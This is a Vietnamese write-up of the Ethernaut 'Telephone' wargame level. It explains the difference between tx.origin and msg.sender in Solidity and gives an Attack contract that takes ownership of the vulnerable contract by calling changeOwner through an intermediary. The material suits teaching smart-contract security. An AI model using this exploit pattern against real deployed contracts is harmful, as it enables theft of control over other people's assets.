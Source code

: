# Level 4: Telephone
## ★☆☆☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
## Phân tích
- Ta thấy trong contract có tx.origin, vậy nó là gì và hoạt động ra sao ?
- Hiểu đơn giản về ``tx.origin`` là nếu bạn gọi function từ một contract A, trong function có có gọi function của contract B, thì tx.origin là địa chỉ của bạn còn msg.sender là contract A address.  

- Đây là một trong những lỗi bảo mật phổ biển của smart contract vì các dev thường hay nhầm lẫn giữa ``msg.sender`` và ``tx.origin``. Hậu quả của việc này thường là các cuộc phising attack.

## tx.origin và msg.sender
Hai biến toàn cục này đôi khi thường vẫn gây phân vân cho solidity developer vì trong một số trường hợp nó trả về cùng một giá trị, như thế nhiều người sẽ mặc định rằng 2 biến này luôn cho về cùng một giá trị và hậu quả là dẫn đến một số lỗi khá quan trọng. Còn đây là định nghĩa của docs:

> tx.origin (address): sender of the transaction (full call chain)

> msg.sender (address): sender of the message (current call)

Hai biến này khá khác nhau, mặc dù cùng trả về address nhưng tx.origin sẽ trả về địa chỉ của địa chỉ tạo ra transaction còn msg.sender sẽ trả về ịa chỉ gọi đến message đó  

![](https://miro.medium.com/v2/resize:fit:1200/1*Q_mcX4Po8JTKUS2yJhvcPQ.png)

Bạn có thể xem các global variable khác tại [đây](https://docs.soliditylang.org/en/v0.8.21/units-and-global-variables.html#block-and-transaction-properties)  
## Solution
**Target**: chiếm quyền owner của contract.  

- Compile và deploy contract này trên remix, sau đó gọi hàm ``claimOwwnership()``:  

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.6 <0.9.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
contract Attack {
    Telephone t;
   address my_addr = 0xee35AA525a1bc43aFb437C8F2b9a58B151A50e53;
   constructor(){
    t = Telephone(my_addr);
   }
   function claimOwnership() public {
      t.changeOwner(msg.sender);
   }

}
```
- Check lại owner:
```javascript
await contract.owner()
```
**Submit** -> Done

## Reference
https://medium.com/@natelapinski/the-difference-between-tx-origin-60737d3b3ab5


